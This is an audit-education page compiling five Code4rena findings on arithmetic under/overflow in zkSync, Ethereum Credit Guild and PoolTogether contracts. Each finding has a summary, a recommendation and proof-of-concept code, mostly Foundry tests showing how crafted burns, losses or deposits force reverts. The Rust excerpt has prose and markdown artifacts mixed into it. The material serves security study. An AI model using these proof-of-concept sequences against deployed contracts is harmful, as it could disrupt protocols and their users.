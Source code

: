 # ETAAcademy-Adudit: 2. Under/Overflow

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Under/Overflow</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>math</th>
          <td>under/overflow</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] Reduction gate in binop operation is unsafe

### Lack of overflow check

- Summary: This method converts a constraint system variable (representing a value in the prime field) directly into a **`UInt8`** value without performing any overflow checks.

- Impact & Recommendation: This means that if the original value exceeds the range of **`UInt8`** (0 to 255), an attacker could inject unexpected or malicious behavior into the circuit by manipulating the overflowed **`xor_result`**.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#h-05-reduction-gate-in-binop-operation-is-unsafe) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

    let mut composite_result = [Variable::placeholder(); 32];
    for ((a, b), dst) in a.iter().zip(b.iter()).zip(composite_result.iter_mut()) {
        let [result] = cs.perform_lookup::<2, 1>(table_id, &[a.get_variable(), b.get_variable()]);
        *dst = result;
    }

    At first, we perform a lookup to get the composite result for and, or and xor.


    for (src, decomposition) in composite_result.iter().zip(all_results.array_chunks::<3>()) {
        if cs.gate_is_allowed::<ReductionGate<F, 4>>() {
            let mut gate = ReductionGate::<F, 4>::empty();
            gate.params = ReductionGateParams {
                reduction_constants: [F::SHIFTS[0], F::SHIFTS[16], F::SHIFTS[32], F::ZERO],
            };
            gate.reduction_result = *src;
            gate.terms = [
                decomposition[0],
                decomposition[1],
                decomposition[2],
                zero_var,
            ];
            gate.add_to_cs(cs);
        }


    for (((and, or), xor), src) in and_results
    .iter_mut()
    .zip(or_results.iter_mut())
    .zip(xor_results.iter_mut())
    .zip(all_results.array_chunks::<3>())
    {
    *and = src[0];
    *or = src[1];
    \*xor = src[2];
    }
    let and_results = and_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    let or_results = or_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    let xor_results = xor_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    Finally, we get three separate results from all_results.



    for source*set in all_results.array_chunks::<3>() {
    // value is irrelevant, it's just a range check
    let *: [Variable; 1] = cs.perform_lookup::<2, 1>(table_id, &[source_set[0], source_set[1]]);
    }


  ```

</details>

## 2.[Medium] TotalBorrowedCredit can revert, breaking gauges.

### CreditMultiplier affect totalBorrowedCredit

- Summary: Changes in the creditMultiplier can cause issues in the totalBorrowedCredit function, potentially leading to reverting due to underflow. This affects debt ceiling calculations and can break borrow operations, impacting functionality.

- Impact & Recommendation: To prevent failures, either cap totalBorrowedCredit at 0 or track total tokens minted and burned by the PSM module to remove dependence on creditMultiplier.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-03-totalborrowedcredit-can-revert-breaking-gauges) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testAttackRevert() public {
    // grant roles to test contract
    vm.startPrank(governor);
    core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
    core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
    vm.stopPrank();
    emit log_named_uint('TBC 1', profitManager.totalBorrowedCredit());
    // psm mint 100 CREDIT
    pegToken.mint(address(this), 100e6);
    pegToken.approve(address(psm), 100e6);
    psm.mint(address(this), 100e6);
    emit log_named_uint('TBC 2', profitManager.totalBorrowedCredit());
    // apply a loss
    // 50 CREDIT of loans completely default (50 USD loss)
    profitManager.notifyPnL(address(this), -50e18);
    emit log_named_uint('TBC 3', profitManager.totalBorrowedCredit());
    // burn tokens to throw off the ratio
    credit.burn(70e18);
    vm.expectRevert();
    emit log_named_uint('TBC 4', profitManager.totalBorrowedCredit());
    }


  ```

  </details>

## 2.[Medium] PnL system can be broken by large users intentionally or unintentionally.

### CreditMultiplier affected by `creditTotalSupply - loss < 0`

- Summary: The notifyPnL function in ProfitManager.sol calculates the credit multiplier based on creditTotalSupply minus loss. If the loss exceeds creditTotalSupply, it causes a revert, breaking gauge slashing and voting systems.

- Impact & Recommendation: Excessive losses cause gauge vote slashing, decrease the creditMultiplier, and disrupt the auction process. If the loss exceeds creditTotalSupply, setting the creditMultiplier to 0 prevents system breakdown.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-04-pnl-system-can-be-broken-by-large-users-intentionally-or-unintentionally) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testAttackBid() public {
    bytes32 loanId = _setupAndCallLoan();
    uint256 PHASE_1_DURATION = auctionHouse.midPoint();
    uint256 PHASE_2_DURATION = auctionHouse.auctionDuration() - auctionHouse.midPoint();
    vm.roll(block.number + 1);
    vm.warp(block.timestamp + PHASE_1_DURATION + (PHASE_2_DURATION * 2) / 3);
    // At this time, get full collateral, repay half debt
    (uint256 collateralReceived, uint256 creditAsked) = auctionHouse.getBidDetail(loanId);
    emit log_named_uint('collateralReceived', collateralReceived);
    emit log_named_uint('creditAsked', creditAsked);
    vm.startPrank(borrower);
    credit.burn(20_000e18);
    vm.stopPrank();
    // bid
    credit.mint(bidder, creditAsked);
    vm.startPrank(bidder);
    credit.approve(address(term), creditAsked);
    vm.expectRevert();
    auctionHouse.bid(loanId);
    vm.stopPrank();
    }

  ```

  </details>

## 3.[Medium] Rounding errors can cause ERC20RebaseDistributor transfers and mints to fail for underflow

### Underflow by rounding errors

- Summary: Rounding issues in ERC20RebaseDistributor can cause transfers to fail if there's a discrepancy in share calculations. This can be exploited to disrupt operations like liquidations, as affected addresses cannot exit rebase to fix transfers.

- Impact & Recommendation: Transfers and mints involving rebasing addresses may fail. To fix this, consider adjusting share calculations to tolerate rounding fluctuations, like flooring the relevant subtractions to 0.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-23-rounding-errors-can-cause-erc20rebasedistributor-transfers-and-mints-to-fail-for-underflow) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testM2bis() external {
        uint t0 = block.timestamp;
        // set up the credit token with the minimum 100e18 rebasing supply
        // as indicated here ->

        ct.mint(address(1), 100e18);
        vm.prank(address(1));
        ct.enterRebase();

        ct.mint(address(2), 6e11); vm.prank(address(2)); ct.distribute(6e11);
        vm.warp(2);
        ct.mint(address(2), 3e12); vm.prank(address(2)); ct.distribute(3e12);
        vm.warp(3);

        ct.mint(address(3), 1e20);
        vm.prank(address(3));
        // ☢️ this shouldn't revert!
        vm.expectRevert();
        ct.transfer(address(1), 1e20);
        // ☢️ this shouldn't either!
        vm.expectRevert();
        ct.mint(address(1), 1e20);
        // ☢️ this too..
        vm.prank(address(1));
        vm.expectRevert();
        ct.exitRebase();
        // ☢️ same here...
        vm.startPrank(address(1));
        vm.expectRevert();
        ct.transfer(address(3), 1e20);
        // ☢️ I bet you saw this coming...
        ct.approve(address(3), 1e20);
        vm.startPrank(address(3));
        vm.expectRevert();
        ct.transferFrom(address(1), address(3), 1e20);
    }

  ```

  </details>

## 4.[Medium] PrizeVault.maxDeposit() doesn’t take into account produced fees

### Overflow by fees

- Summary: The current implementation of PrizeVault.maxDeposit() does not account for produced fees, potentially leading to an overflow issue when yieldFeeRecipient tries to withdraw shares. This can occur with low-price tokens, where the deposit amount calculated by maxDeposit() can easily exceed the limit of type(uint96).max.

- Impact & Recommendation: Ensure users can mint when making maximum deposits by adjusting PrizeVault.maxDeposit() to factor in produced fees or by adding a function to withdraw fees in assets.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#m-07-prizevaultmaxdeposit-doesnt-take-into-account-produced-fees) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity
    function _deposit(address account, uint256 amount) private {
        underlyingAsset.mint(account, amount);
        vm.startPrank(account);
        underlyingAsset.approve(address(vault), amount);
        vault.deposit(amount, account);
        vm.stopPrank();
    }
    function testMaxDeposit_CalculatesWithoutTakingIntoAccountGeneratedFees() public {
        vault.setYieldFeePercentage(1e8); // 10%
        vault.setYieldFeeRecipient(bob);
        // alice make initial deposit
        _deposit(alice, 1e18);
        // mint yield to the vault and liquidate
        underlyingAsset.mint(address(vault), 1e18);
        vault.setLiquidationPair(address(this));
        uint256 maxLiquidation = vault.liquidatableBalanceOf(address(underlyingAsset));
        uint256 amountOut = maxLiquidation / 2;
        uint256 yieldFee = (1e18 - vault.yieldBuffer()) / (2 * 10); // 10% yield fee + 90% amountOut = 100%
        // bob transfers tokens out and increase fee
        vault.transferTokensOut(address(0), bob, address(underlyingAsset), amountOut);
        // alice make deposit with maximum available value for deposit
        uint256 maxDeposit = vault.maxDeposit(address(this));
        _deposit(alice, maxDeposit);
        // then bob want to withdraw earned fee but he can't do that
        vm.prank(bob);
        vm.expectRevert();
        vault.claimYieldFeeShares(yieldFee);
    }

  ```

  </details>

## 5.[Medium] yieldFeeBalance wouldn’t be claimed after calling transferTokensOut()

### Overflow by fees

- Summary: When `_tokenOut ==  address(this)`, `liquidatableBalanceOf()` mints shares and accumulates `yieldFeeBalance` accordingly. However, the maximum liquidatable amount is checked only against `liquidYield` without `_yieldFee`, potentially reaching the supply limit while minting `yieldFeeBalance`. As a result, `yieldFeeBalance` can't be claimed even though it's added to the balance.

- Impact & Recommendation: `liquidatableBalanceOf()` shouldn’t apply `yieldFeePercentage` to compare with `_maxAmountOut` when `_tokenOut == address(this)`.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#m-05-yieldfeebalance-wouldnt-be-claimed-after-calling-transfertokensout) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity

      function liquidatableBalanceOf(address _tokenOut) public view returns (uint256) {
        uint256 _totalSupply = totalSupply();
        uint256 _maxAmountOut;
        if (_tokenOut == address(this)) {
            // Liquidation of vault shares is capped to the TWAB supply limit.
            _maxAmountOut = _twabSupplyLimit(_totalSupply);
        } else if (_tokenOut == address(_asset)) {
            // Liquidation of yield assets is capped at the max yield vault withdraw plus any latent balance.
            _maxAmountOut = _maxYieldVaultWithdraw() + _asset.balanceOf(address(this));
        } else {
            return 0;
        }
        // The liquid yield is computed by taking the available yield balance and multiplying it
        // by (1 - yieldFeePercentage), rounding down, to ensure that enough yield is left for the
        // yield fee.
        uint256 _liquidYield = _availableYieldBalance(totalAssets(), _totalDebt(_totalSupply));
        if (_tokenOut == address(this)) {
            if (_liquidYield >= _maxAmountOut) { //compare before applying yieldFeePercentage
                _liquidYield = _maxAmountOut;
            }
            _liquidYield = _liquidYield.mulDiv(FEE_PRECISION - yieldFeePercentage, FEE_PRECISION);
        } else {
            _liquidYield = _liquidYield.mulDiv(FEE_PRECISION - yieldFeePercentage, FEE_PRECISION);
            if (_liquidYield >= _maxAmountOut) { //same as before
                _liquidYield = _maxAmountOut;
            }
        }
        return _liquidYield;
    }

  ```

  </details>
